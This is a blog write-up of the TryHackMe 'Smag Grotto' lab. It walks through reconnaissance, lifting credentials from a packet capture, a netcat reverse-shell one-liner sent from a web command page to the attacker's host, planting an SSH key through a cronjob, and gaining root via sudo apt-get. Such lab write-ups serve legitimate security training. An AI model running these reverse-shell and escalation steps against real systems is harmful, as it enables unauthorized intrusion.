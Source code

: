 ```yaml
---
title: "Smag Grotto - TryHackMe"
author: Ludovic COULON
date: 2020-07-30
hero: ./images/hero.jpeg
excerpt: "Writeup for the Smag Grotto university of Portsmouth's beginner room"
---
```


[TryHackMe | Smag Grotto](https://tryhackme.com/room/smaggrotto)

Deploy the machine and get root privileges.

---

### Setup

```
[smaggrotto] nmap -A 10.10.192.6                                                                                         2:01:00
```

```bash
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
|_  256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 1.3K  2020-06-05 10:56  admin.php
| 1.5K  2020-06-05 10:45  login.php
| 139K  2020-06-05 10:19  materialize.min.css
|_
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Index of /
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

<div className="Image__Medium">
  <img src="https://i.imgur.com/D9PypUN.png" alt="blog_image" />
</div>

Let's see if there is something on the website

<div className="Image__Medium">
  <img src="https://i.imgur.com/aXIQi2Y.png" alt="blog_image" />
</div>

Well nothing of the website let's see of there is some hidden dirrectory with gobuster/dirb

```bash
# Select your own wordlist
[smaggrotto] gobuster -u 10.10.192.6 -w /opt/directory-list-2.3-medium.txt
```

```bash
Gobuster v1.3                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.192.6/
[+] Threads      : 10
[+] Wordlist     : /opt/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
=====================================================
/mail (Status: 301)
```

<div className="Image__Medium">
  <img src="https://i.imgur.com/V1XUxTY.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://i.imgur.com/UZZG0pk.png" alt="blog_image" />
</div>

Nice there is something interesting on this webpage let's download the pcap (wireshark) file and extract the juicy data 👀

<div className="Image__Medium">
  <img src="https://i.imgur.com/FZ4Kz25.png" alt="blog_image" />
</div>

The simple way to extract the data is to select the first packet then go to the "Analyse" tab the click on the "Follow" then "TCP Stream"

<div className="Image__Medium">
  <img src="https://i.imgur.com/yKY9pMB.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://i.imgur.com/RR1fGLX.png" alt="blog_image" />
</div>

Nice we successfully have the username and the password but for what ? The SSH ? Or something else ? 🙄

Before trying the SSH connection with those credentials, you can see on the TCP Stream there is a Host : "development.smag.thm", let's take a look to this link.

To add this host you need to edit your "/etc/hosts" file.

<div className="Image__Medium">
  <img src="https://i.imgur.com/Q5KPLgs.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://i.imgur.com/FLbTQw7.png" alt="blog_image" />
</div>

Well let's use the credentials that the TCP Stream gives us

```bash
h[nope 👁👄👁]k:cH[nope 👁👄👁]0w
```

<div className="Image__Medium">
  <img src="https://i.imgur.com/L0iBMqp.png" alt="blog_image" />
</div>

Nice, we can execute remote command let's try a reverse shell 🤩

<div className="Image__Small">
  <img src="https://i.imgur.com/UJiq34Y.png" alt="blog_image" />
</div>

(This is actually my own chrome extension to generate some reverse shell and more..)

[LasCC/Hack-Tools](https://github.com/LasCC/Hack-Tools)

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.28.116 1337 >/tmp/f
```

<div className="Image__Medium">
  <img src="https://i.imgur.com/4pVmO2j.png" alt="blog_image" />
</div>

Nice we have a reverse shell, let's see if we can have the first flag 🏅

<div className="Image__Medium">
  <img src="https://i.imgur.com/i1MkJLx.png" alt="blog_image" />
</div>

As you can see we don't have the permission to see the content of the file let's upload LinEnum to see if there is some potential attacks that we can perform.

<div className="Image__Medium">
  <img src="https://i.imgur.com/G9PaoMF.png" alt="blog_image" />
</div>

Ah, I found something very interesting with the cronjob

<div className="Image__Medium">
  <img src="https://i.imgur.com/MkUFU4L.png" alt="blog_image" />
</div>

As you can see the cronjob is taking the jake's backup SSH public key and add it to the authorised keys, if we create our own key and modify the backup file we can access the server ☺️

First let's generate our own SSH public key 👍

```bash
[smaggrotto] ssh-keygen -o
```

<div className="Image__Medium">
  <img src="https://i.imgur.com/kXjks3E.png" alt="blog_image" />
</div>

Nice we have our own SSH public key let's change the backup file on the server 👍

<div className="Image__Medium">
  <img src="https://i.imgur.com/Q7IGUeR.png" alt="blog_image" />
</div>

Now let's wait one or two minutes and then we can log to the server with the jake username 😀

```bash
[smaggrotto] ssh -i [Path to your ssh key] jake@10.10.192.6
```

<div className="Image__Medium">
  <img src="https://i.imgur.com/hEeAJH6.png" alt="blog_image" />
</div>

And voilà ! You have the access to the remote server ! 🎉

### **#1 What is the user flag?**

```bash
iusGo[nope 👁👄👁]uqU3j
```

<div className="Image__Medium">
  <img src="https://i.imgur.com/5xn3kch.png" alt="blog_image" />
</div>

### **#2 What is the root flag?**

Now let's get a root access 😍

<div className="Image__Medium">
  <img src="https://i.imgur.com/TcRPpC7.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://i.imgur.com/9sh8unG.png" alt="blog_image" />
</div>

[apt get | GTFOBins](https://gtfobins.github.io/gtfobins/apt-get/#sudo)

<div className="Image__Medium">
  <img src="https://i.imgur.com/iDrkgGN.png" alt="blog_image" />
</div>

```bash
uJr6zRgetan[nope 👁👄👁]bBKz2T
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/p0h00A1.png" alt="TryhackMeProfile" />
  </a>
</center>
